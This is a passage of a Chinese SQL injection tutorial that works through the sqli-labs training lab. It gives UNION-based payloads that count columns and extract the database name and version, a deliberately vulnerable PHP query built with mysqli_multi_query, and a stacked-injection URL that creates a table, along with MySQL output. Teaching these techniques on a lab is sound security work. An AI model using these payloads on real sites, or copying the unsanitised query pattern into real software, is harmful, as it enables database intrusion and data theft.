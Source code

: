 <pre class="lang-sql" data-nodeid="1959"><code data-language="sql">回显错误：http://localhost/Less-2/?id=0 union <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-number">2</span>
正确：<span class="hljs-keyword">http</span>://localhost/<span class="hljs-keyword">Less</span><span class="hljs-number">-2</span>/?<span class="hljs-keyword">id</span>=<span class="hljs-number">0</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-number">2</span>,<span class="hljs-number">3</span>
回显错误：<span class="hljs-keyword">http</span>://localhost/<span class="hljs-keyword">Less</span><span class="hljs-number">-2</span>/?<span class="hljs-keyword">id</span>=<span class="hljs-number">0</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-number">2</span>,<span class="hljs-number">3</span>,<span class="hljs-number">4</span>
</code></pre>
<p data-nodeid="1960">最后发现它共有 3 个字段，我们看看哪些字段显示出来了：<br>
<img src="https://s0.lgstatic.com/i/image2/M01/03/A3/Cip5yF_gPVGAYoxhAANs6mFjRDI693.png" alt="Drawing 10.png" data-nodeid="2209"></p>
<div data-nodeid="1961"><p style="text-align:center">图 11：字段展示</p></div>
<p data-nodeid="1962">可以发现 2 和 3 字段显示在页面中，这里我们就可以进一步构造利用以获取数据库名和版本信息：</p>
<pre class="lang-sql" data-nodeid="1963"><code data-language="sql">http://localhost/Less-2/?id=0 union <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-keyword">database</span>(),<span class="hljs-keyword">version</span>()
</code></pre>
<p data-nodeid="1964">最终，我们成功爆出数据库名为 security，版本为 5.5.44-0ubuntu0.14.04.1，如下图所示：</p>
<p data-nodeid="1965"><img src="https://s0.lgstatic.com/i/image2/M01/03/A3/Cip5yF_gPVmAaBouAAN-25Njwzw855.png" alt="Drawing 11.png" data-nodeid="2214"></p>
<div data-nodeid="1966"><p style="text-align:center">图 12：成功爆出数据库名</p></div>
<h4 data-nodeid="1967">多语句堆叠注入</h4>
<p data-nodeid="1968">在 SQL 语句中，允许使用分号间隔多个查询语句来执行。mysqli_multi_query() 函数可以通过分号间隔插入多个查询语句实现堆叠注入。以 sqli-labs 第 38 题为例：</p>
<pre class="lang-php" data-nodeid="1969"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
    $id=$_GET[<span class="hljs-string">'id'</span>];
	......
	$sql=<span class="hljs-string">"SELECT * FROM users WHERE id='$id' LIMIT 0,1"</span>;
	<span class="hljs-comment">/* execute multi query */</span>
	<span class="hljs-keyword">if</span> (mysqli_multi_query($con1, $sql))
	{
       ......
    }
    ......
<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="1970">此处正是使用 mysqli_multi_query 函数实现的多语句查询。我们可以尝试插入另一条语句来创建表：</p>
<pre class="lang-sql" data-nodeid="1971"><code data-language="sql">http://localhost/Less-38?id=1';<span class="hljs-keyword">create</span> <span class="hljs-keyword">table</span> sqli <span class="hljs-keyword">like</span> <span class="hljs-keyword">users</span>;
</code></pre>
<p data-nodeid="1972">执行前的表：</p>
<pre class="lang-java" data-nodeid="1973"><code data-language="java">mysql&gt; show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;|
| referers&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;|
| uagents&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; |
| users&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; |
+--------------------+
<span class="hljs-number">4</span> <span class="hljs-function">rows in <span class="hljs-title">set</span> <span class="hljs-params">(<span class="hljs-number">0.00</span> sec)</span>
</span></code></pre>
<p data-nodeid="1974">执行后，成功创建 sqli 表，说明第二条语句执行成功：</p>